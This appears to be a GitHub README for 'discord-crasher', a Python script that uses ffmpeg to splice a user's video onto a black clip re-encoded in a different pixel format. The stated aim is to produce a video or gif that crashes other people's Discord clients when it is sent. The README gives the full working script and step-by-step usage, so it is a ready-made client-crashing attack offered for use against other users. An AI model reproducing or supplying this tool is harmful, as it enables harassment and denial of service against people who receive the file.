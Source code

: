 # discord-crasher
Creates videos with ffmpeg that can crash discord
`
> Discord Crasher
This script will make a video with ffmpeg that will be able to crash peoples discords
you can later convert it to a .gif file so it will instacrash when you send the gif ^^
`
`
Files that will be there sinse the beggining:
black.mp4 //need it for later as the second video (will be renamed to new-vid.mp4)
video.mp4 //will be the first video show in the gif / video that will be the crasher.mp4`
`
These files will be created and deleted when the script finishes:
new-vid.mp4 //black.mp4 wont be deleted code.txt //will be used later
`
`so you have for example black.mp4 (this will be forever there as the second video)like (first video then the second video starts playing its useless(second video)) so you leave it as black.mp4 its a black 10 secs vid
`
`
first comes this part of the code which asks for the name of the video.mp4 that will be the first video in the gif / video that will be crashing.
i t also executes this ffmpeg -i black.mp4 -pix_fmt yuv444p new-vid.mp4
//firstf is input of the first video (the first video that will be played at the beggining of the crashing video / gif you will have)
`
`
print(" ")
print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
firstf = input(f"""    {Fore.BLUE }${Fore.RESET} Video => """) //remember this for later
print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
os.system(f"""ffmpeg -i black.mp4 -pix_fmt yuv444p new-vid.mp4""")
print(" ")
print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")

then it uses this to write to the code.txt file which you willl need it later :
print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
open("code.txt", "w").close()
file = open("code.txt","w") 
file.write(f"""file {firstf}\n""")
file.write(f"""file new-vid.mp4""")
file.close()
print(" ")
print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")`
`
The code:

import os,sys
import subprocess
import glob
from colorama import Fore, Back, Style
def clear():
    os.system("clear")

def main():
    print(" ")
    print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
    firstf = input(f"""    {Fore.BLUE }${Fore.RESET} Video => """)
    print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
    os.system(f"""ffmpeg -i black.mp4 -pix_fmt yuv444p new-vid.mp4""")
    print(" ")
    print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
    open("code.txt", "w").close()
    file = open("code.txt","w") 
    file.write(f"""file {firstf}\n""")
    file.write(f"""file new-vid.mp4""")
    file.close()
    print(" ")
    print(f"""    {Fore.BLUE }[+++]{Fore.RESET}==================={Fore.BLUE }[+++]{Fore.RESET}\n""")
    os.system("ffmpeg -f concat -i code.txt -codec copy crasher.mp4")
    os.system("rm -rf code.txt")
    os.system("rm -rf new-vid.mp4")
    os.system("clear")
    clear()
main()`
`
Files you will need to have (same directory):
script.py

black.mp4 (will always be there !!!dont remove it!!!)
video.mp4(or whatever name your vid is(example: part1.mp4)) (first part of video crasher / gif)
`
`
Stuff you need to install for the python script to work:
pip3 install colorama
`
